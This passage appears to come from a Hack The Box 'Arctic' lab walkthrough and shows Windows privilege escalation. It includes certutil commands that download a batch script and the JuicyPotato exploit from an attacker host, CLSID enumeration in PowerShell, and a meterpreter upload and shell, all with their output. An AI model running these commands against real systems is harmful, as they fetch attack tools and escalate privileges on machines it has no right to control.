 Download all the necessary files:

```powershell
C:\Users\tolis\Downloads>certutil -urlcache -f http://10.10.14.14/test_clsid.bat test_clsid.bat 
certutil -urlcache -f http://10.10.14.14/test_clsid.bat test_clsid.bat
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\tolis\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\Users\tolis\Downloads

23/04/2021  09:09     <DIR>          .
23/04/2021  09:09     <DIR>          ..
23/04/2021  09:09                285 test_clsid.bat
               1 File(s)            285 bytes
               2 Dir(s)  33.183.264.768 bytes free

C:\Users\tolis\Downloads>certutil -urlcache -f http://10.10.14.14/JP_x64.exe juicypotato.exe
certutil -urlcache -f http://10.10.14.14/JP_x64.exe juicypotato.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Extract valid CLIDs:

```powershell
PS C:\users\tolis\downloads> New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT

WARNING: column "CurrentLocation" does not fit into the display and was removed
.

Name           Used (GB)     Free (GB) Provider      Root                      
----           ---------     --------- --------      ----                      
HKCR                                   Registry      HKEY_CLASSES_ROOT         

PS C:\users\tolis\downloads> $CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
PS C:\users\tolis\downloads> echo $CLSID > CLSID_both.list

# Copy paste on the kali machine
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ awk '{print $2}' CLSID_only.list| tr -d '\000' > CLSID.list

meterpreter > upload CLSID.list
[*] uploading  : /home/kali/CTFs/HTB/box/Arctic/exploit/CLSID.list -> CLSID.list
[*] Uploaded 12.19 KiB of 12.19 KiB (100.0%): /home/kali/CTFs/HTB/box/Arctic/exploit/CLSID.list -> CLSID.list
[*] uploaded   : /home/kali/CTFs/HTB/box/Arctic/exploit/CLSID.list -> CLSID.list
meterpreter > shell
...
C:\users\tolis\downloads>.\test_clsid.bat
.\test_clsid.bat
{00021401-0000-0000-C000-000000000046} 10000
{000C101C-0000-0000-C000-000000000046} 10000
{0010890e-8789-413c-adbc-48f5b511b3af} 10000
{00BC7EAE-28D5-4310-BE9F-11526A7FA37F} 10000
{010911E2-F61C-479B-B08C-43E6D1299EFE} 10000
{01D0A625-782D-4777-8D4E-547E6457FAD5} 10000
...
```
